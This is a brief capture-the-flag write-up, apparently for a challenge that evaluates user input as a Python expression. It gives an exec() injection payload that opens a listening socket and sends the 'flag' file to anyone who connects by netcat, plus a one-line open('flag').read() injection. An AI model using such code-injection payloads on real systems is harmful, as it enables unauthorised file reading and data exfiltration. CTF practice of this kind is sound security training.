 # Solution

## Complicated solution
Input this as an expression:

exec('import socket; s = socket.socket(); s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1); s.bind(("0.0.0.0", 55555)); s.listen(1); c = s.accept()[0]; c.send(open("flag", "rb").read())')

Press Enter.
Then connect to server via netcat: "nc host 55555". It will send us a flag.

## Simple solution
Just type "open('flag').read()". :)
